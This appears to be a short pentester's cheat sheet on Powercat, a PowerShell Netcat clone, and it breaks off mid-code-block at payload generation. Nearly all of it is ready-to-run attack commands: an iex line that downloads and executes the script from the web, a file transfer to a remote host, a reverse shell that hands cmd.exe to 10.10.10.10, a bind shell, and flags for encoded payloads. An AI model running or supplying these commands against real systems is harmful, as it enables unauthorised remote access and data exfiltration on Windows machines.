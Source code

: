 # Powercat 
The Powershell clone of Netcat written by [besimorhino](https://github.com/besimorhino/powercat/blob/master/powercat.ps1) and similar useful as netcat but only useful for [[Windows-Privilege-Escalation]], [[Active-Directory-Privilege-Escalation]] and [[Windows-File-Transfers]]

## Setup
```powershell
. .\powercat.ps1

iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

powercat -h
```

## File transfers
```powershell
powercat -c 10.10.10.10 -p 54321 -i C:\Users\Administrator\powercat.ps1
```

## Reserve Shells
```powershell
powercat -c 10.10.10.10 -p 54321 -e cmd.exe
```

## Bind Shells
```powershell
powercat -l -p 1337 -e cmd.exe
```

## Powercat Payloads
Powercat payloads are generated by Powercat that is a set Powershell instrcutions combine parts of the Powercat script.
```powershell
-g # generate payload
-ge # generate encoded payload

